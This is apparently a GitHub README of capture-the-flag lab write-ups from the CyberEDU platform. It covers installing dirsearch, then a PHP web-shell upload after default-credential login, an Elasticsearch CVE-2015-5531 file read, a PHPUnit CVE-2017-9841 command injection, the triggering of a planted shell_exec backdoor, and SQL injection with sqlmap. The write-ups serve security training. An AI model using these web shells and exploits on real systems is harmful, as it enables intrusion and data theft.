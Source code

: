 # Installing Dirsearch
The first thing we need to do is install dirsearch from GitHub. 

The easiest way to do this is with git. So if it's not already installed on your system, do so with the following command in the terminal:

$sudo apt-get update
$sudo apt-get install git
![image](https://github.com/Mariam-kabu/cybersec-labs/assets/82336496/fa7bf001-3757-4cc7-986f-9898f5a56c3c)

Now we can use the git clone command to clone the directory where the tool is located:

$git clone https://github.com/maurosoria/dirsearch
$cd dirsearch/
$python3 dirsearch.py      #run dirsearch
![image](https://github.com/Mariam-kabu/cybersec-labs/assets/82336496/5ea41a82-ea53-4e6e-90db-d6db23a75574)
git clone https://github.com/maurosoria/dirsearch.git --depth 1

The last way to run dirsearch, which is my preferred method, is to create a symbolic link in the /bin directory. This will allow us to run the tool from anywhere, as opposed to only in the directory cloned from GitHub.
$cd /bin/

create a symbolic link to the tool using the ln -s command:
$sudo ln -s ~/dirsearch/dirsearch.py dirsearch

Here we are naming it dirsearch, so when we run dirsearch now in the terminal, the tool will be able to run from any directory. 
![image](https://github.com/Mariam-kabu/cybersec-labs/assets/82336496/3affa48f-5008-429b-9ea1-0910fcfd2caf)



# cybersec-labs
# bolt
Let's try: View Page Source, pay attention to p This website is... /p, add /bolt to URL and guess the user and pass (admin, password).

Once you are in you need to go to file management to see if you can upload some malicious files. Let’s try to create and upload a vulnerable rce.html file

click file and start editing < ?php echo system($_GET['cmd']);? >
Go to options and rename the rce.html file to rce.php

Click on rce.php
Add cmd=id
cmd=ls-l
cat /flag.txt
CTF{b12e3b34c581d4f3c66c00cc7f8dabec8838dab0acf26c2cfbe2f7d291326f75}
# elastic
![image](https://github.com/Mariam-kabu/cybersec-labs/assets/82336496/219165d6-3a23-41a4-8efa-ff035e7b89b1)
Hints:
Hint 1:  Elasticsearch < 1.6.1 Arbitrary file read CVE (version)

The main web page exposure sensitive information about the version of Elasticsearch
application. 

The main of this scenario is to identify the vulnerability like in the real scenario.

Try to find an exploit

Searchable archive from The Exploit Database. https://www.exploit-db.com/

Search for remote Oracle exploits for Windows:
Installation:

$sudo apt install exploited

$sudo apt install libxml2-utils

Dependencies: libxml2-utils

$searchsploit elasticsearch

The vulnerability present in the current scenario offers more details about 
CVE-2015-5531- Arbitrary file Vulnerability. 

The exploit can be found here:

https://github.com/nixawk/labs/blob/master/CVE-2015-5531/exploit.py

$ python3 exploit.py URL /etc/passwd 
![image](https://github.com/Mariam-kabu/cybersec-labs/assets/82336496/a2ea58dc-fabc-4f50-a8ee-0ba19366d4c8)
CTF{265b92ed0091f139fdcd438196426f205fed9b14bce765bafd8344b1d96183e5}
# php unit
A website is provided as a reference to my unit is feeling a little off. So first we can try to understand php unit. For example, we can use the automatic tool Dirsearch, which brute-force searches for vulnerabilities in directories.

$ dirsearch -u URL

From these addresses we can select the ones that are interesting to us like /composer.json, Here we can find versions of php-unit and /eval-stding.php
Vulnerable path. Let’s check: /composer.json where we can understand that our php uni is vulnerable (CVE-2017-9841).

Now exploit the vulnerable path using Burpsuite: < ?php system('cat /flag.txt')? >
CTF{8c7795c5332da1491741a61fe780006a619273444bfe54aff555e28f83e3b123}

# nodiff-backdoor
After performing some recon using *dirsearch* on the targeted web application, we can find a *backup.zip* archive.

$ dirsearch -u URL

Download the backup file from the following URL: http://34.107.45.207:30148//backup.zip 
(take note that the IP address can change based on the functionality of the CyberEDU platform.) 

In this way, we obtain the source code of the application.

$ wget http://34.107.45.207:30148//backup.zip 

Copy backup.zip to the new folder and unzip it. 

Now is the time to find some backdoor. Because applications use PHP code we try to search for vulnerable function in PHP:
https://gist.github.com/mccabe615/b0907514d34b2de088c4996933ea1720

We can try to search for all the vulnerable functions. After few tries observe we got the vulnerable function (shell_exec()) in the next path: “wp-content/themes/twentytwentytwo/functions.php”

$ grep –r “shell_exec(“

The next step is to execute the backdoor to access the server based on what we have. 
If we have the parameter welldone=knockknock, then execute parameter shazam=<injection>
![image](https://github.com/Mariam-kabu/cybersec-labs/assets/82336496/5ed643c1-2038-4a23-ba9f-b3c823729699)
![image](https://github.com/Mariam-kabu/cybersec-labs/assets/82336496/5fbc856c-6241-4c2a-a001-2a9c9174004b)
Now let’s get the flag in the source of the page:
http://34.107.45.207:30148/?welldone=knockknock&shazam=id

http://34.107.45.207:30148/?welldone=knockknock&shazam=cat flag.php
CTF{87702788126237df9c4a915fea9441345dc6b3a0272b214b2c31e50a8f89c4b1}

# schematics
After a few attempts of web application reconnaissance using dirsearch -u , we obtain a register endpoint.
choose register.php because it is successful link.
register

When we put “%” into the field, the list of all the products is showed. At this moment, we can conclude that the page with search functionalities implemented is vulnerable to SQLi injection. To proceed further with the attack, copy the cookie from the POST request obtained with Burp and use SQLmap on it. we use it for the command to have valid session
![image](https://github.com/Mariam-kabu/cybersec-labs/assets/82336496/fba3f32b-93cc-47b5-a611-bdc69f05c6d9)
CTF{1nformat1on_sch3ma_c4n_cont41n_us3ful_d4t4}


# authorization
try dirsearch and chek urls

for /auth We are not allowed to use GET requests because we got some error, 
so let’s try to use POST  requests.


